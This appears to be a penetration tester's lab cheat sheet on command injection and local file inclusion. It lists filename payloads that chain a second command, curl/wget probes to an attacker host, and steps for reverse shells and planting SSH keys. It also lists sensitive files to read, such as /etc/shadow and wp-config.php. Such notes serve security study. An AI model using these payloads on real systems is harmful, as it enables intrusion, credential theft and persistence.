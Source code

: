 ## Command Injection
- Try different characters to check for verbose error messages

Blind ICMP:
```
test.txt;<command>;

sudo tcpdump -i tun0 icmp -n -v
test.txt;ping -c 1 10.10.16.33; #Linux
test.txt;ping -n 1 10.10.16.33; #Windows

test.txt;sleep 10;
```

Blind HTTP (Check Port Connectivity):
```
python -m http.server 80
wget http://attackerip/test
curl http://attackerip/test
```
Cheat sheet with commands to try:
https://github.com/payloadbox/command-injection-payload-list

1. Run one liner reverse shell
2. Upload binary, give execute permissions and run
3. Create .ssh folder and upload public key (only works if user running is not a service)

## LFI

1. Log Poisoning
2. Get Confidential Information
3. Escalate to RFI

Discovery:
https://github.com/rowbot1/lfi.list/blob/master/list.list
FFUF or Intruder:
```
ffuf -request ../attendance.req --request-proto http -w command.txt -t 50 -x http://127.0.0.1:8080 -enc FUZZ:urlencode
```

### Confidential Data

etc/passwd
ssh files

https://github.com/DragonJAR/Security-Wordlist/blob/main/LFI-WordList-Linux

```
/etc/passwd
/etc/shadow
/etc/hosts
/etc/issue
/etc/group
/etc/hostname
/var/log/apache/access.log
/var/log/apache2/access.log
/var/log/httpd/access_log
/var/log/apache/error.log
/var/log/apache2/error.log
/var/log/httpd/error_log
/var/log/messages
/var/log/cron.log
/var/log/auth.log
/var/www/html/wp-config.php
/var/www/configuration.php
/var/www/html/inc/header.inc.php
```